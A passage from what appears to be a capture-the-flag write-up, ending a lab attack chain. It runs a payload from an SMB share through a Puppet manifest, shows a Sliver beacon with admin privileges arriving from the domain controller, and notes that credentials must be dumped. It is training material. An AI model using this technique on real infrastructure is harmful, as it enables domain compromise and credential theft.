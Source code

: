 Note that we are trying to run a payload of a smb share on the file server we are on. We also have to copy the payload there. Finally we can try to run the payload:

```terminal
puppet apply /etc/puppet/code/environments/production/manifests/site.pp 
```

It's up the agent to pickup the change. On default settings this is every 30 minutes, but here the agent is checking in every minute to help with the exploitation.

Shortly after we get a beacon from the dc:

```terminal
[*] Beacon 66b57ae6 puppet-mtls - 10.10.144.229:63253 (DC01) - windows/amd64 - Thu, 17 Oct 2024 16:07:46 CEST

sliver (puppet-mtls) > use 66b57ae6
sliver (puppet-mtls) > sa-whoami

UserName		SID
====================== ====================================
PUPPET\svc_puppet_win_t0	S-1-5-21-3066630505-2324057459-3046381011-1602
```

This gives full admin privileges on the DC, the final flag is however not in the usual location - on this machine it's the password of one of the users. So we have to dump credentials to obtain it.

That's it for this chain, I hope it was fun!


